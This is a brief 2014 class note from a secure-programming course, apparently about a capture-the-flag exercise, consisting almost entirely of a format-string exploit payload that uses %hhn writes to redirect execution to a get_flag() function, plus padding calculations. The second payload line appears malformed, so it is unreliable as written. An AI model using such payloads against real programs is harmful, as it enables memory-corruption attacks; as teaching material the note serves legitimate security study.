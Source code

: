 ====================
 Secure Programming
====================

:date: 2014-10-28 19:32
:tags: secprog, ctf, format-string
:category: note
:slug: secure-programming-20141028
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: 2014/10/28 Secure Programming Class Note

.. code-block:: text

    \xdc\xed\xbf\xbf\xdd\xed\xbf\xbf\xde\xed\xbf\xbf\xdf\xed\xbf\xbf%100 c%30$hhn%220c%31$hhn%55c%32$hhn%66c%33$hhn
    get_flag(): 0x0804861d
    29      %29c
    134     %105c
    4       %97c
    8       %97c
    %29c$hhn%105$hhnc%97c$hhn%97c$hhn

